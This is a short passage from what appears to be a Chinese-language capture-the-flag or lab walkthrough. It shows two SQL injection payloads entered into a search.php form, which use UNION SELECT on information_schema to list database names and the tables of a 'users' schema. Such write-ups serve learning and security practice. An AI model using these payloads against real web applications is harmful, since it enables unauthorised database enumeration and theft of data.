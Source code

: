 但是到这里没有任何东西了，看了网上的`wp`，啧，少了一个步骤，就是查询数据库，我这里直接使用当前数据库，导致错过大量信息，在`search.php`构造下面语句

```shell
tom' union select concat(schema_name),version(),3,user(),5,6 from information_schema.schemata#
```

![](./pic-9/22.jpg)

爆出数据库的表的名称

```shell

tom' union select concat(table_name),version(),3,user(),5,6 from information_schema.tables where table_schema='users'#
```
